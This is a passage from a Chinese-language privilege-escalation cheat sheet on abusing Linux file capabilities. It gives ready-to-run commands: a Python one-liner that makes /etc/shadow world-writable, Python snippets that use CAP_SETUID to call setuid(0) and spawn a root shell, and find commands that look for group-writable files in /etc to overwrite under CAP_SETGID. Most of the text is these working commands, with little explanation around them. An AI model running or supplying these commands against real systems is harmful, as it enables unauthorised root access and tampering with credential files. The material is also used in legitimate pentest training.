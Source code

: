 ```
python -c 'import os;os.chmod("/etc/shadow",0666)'
```

CAP_SETUID
----------

**CAP_SETUID：** 允许设置所创建进程的有效用户ID。

**当文件具有能力：**  具有该能力，可以设置uid为0后，调用bash达到提权。

*   • python
    
*   • perl
    
*   • tar
    

比如利用python：

```
# 方法一  
import os  
os.setuid(0)  
os.system("/bin/bash")  
python3.8 -c 'import os;os.setuid(0);os.system("/bin/bash")'

# 方法二  
import os  
import prctl  
# 在集合effective中添加capability  
prctl.cap_effective.setuid = True  
os.setuid(0)  
os.system("/bin/bash")


```

![](https://github.com/D0n9/paper_archive/blob/main/paper/picture/2023/1/989627c8-cadc-459f-a2e0-4604c7f36cef.png?raw=true)

  

![](https://github.com/D0n9/paper_archive/blob/main/paper/picture/2023/1/7f5e213d-8e9b-4c99-aebb-c9eb27d38cc3.png?raw=true)

  

CAP_SETGID
----------

**CAP_SETGID：** 允许设置所创建进程的有效组ID。

**当文件具有能力：**  可以通过覆盖文件来提权，找到组可以操作的文件，因为可以设置为任何组。

```
# 查找组可写的每个文件  
find / -perm /g=w -exec ls -lLd {} \; 2>/dev/null  
# 在/etc中找到每一个maxpath为1的组可写文件  
find /etc -maxdepth 1 -perm /g=w -exec ls -lLd {} \; 2>/dev/null  
# 在/etc中查找每一个maxpath为1的组可读文件  
find /etc -maxdepth 1 -perm /g=r -exec ls -lLd {} \; 2>/dev/null
```
